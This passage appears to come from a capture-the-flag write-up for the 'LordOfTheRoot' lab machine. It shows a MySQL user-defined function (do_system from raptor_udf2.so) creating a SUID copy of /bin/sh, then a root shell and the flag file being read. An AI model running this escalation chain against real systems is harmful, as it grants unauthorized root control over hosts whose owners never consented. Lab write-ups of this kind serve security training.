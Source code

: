 We can verify that the function exists.

```console
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.04 sec)
```

We copy the /bin/sh binary to tmp directory and we grant it SUID permissions.

```console
mysql> select do_system('cp /bin/sh /tmp/sh && chmod 4777 /tmp/sh');
+-------------------------------------------------------+
| do_system('cp /bin/sh /tmp/sh && chmod 4777 /tmp/sh') |
+-------------------------------------------------------+
|                                                     0 |
+-------------------------------------------------------+
1 row in set (0.01 sec)

mysql> quit;
Bye
```

As we can see our binary was copied, we execute it and get root.

```console
smeagol@LordOfTheRoot:~$ ls -la /tmp/sh 
-rwsrwxrwx 1 root root 112204 Nov  9 13:23 /tmp/sh
smeagol@LordOfTheRoot:~$ /tmp/sh
# id
uid=1000(smeagol) gid=1000(smeagol) euid=0(root) groups=0(root),1000(smeagol)
# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@LordOfTheRoot:~# cd /root
root@LordOfTheRoot:/root# ls
buf  buf.c  Flag.txt  other  other.c  switcher.py
root@LordOfTheRoot:/root# cat Flag.txt 
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```
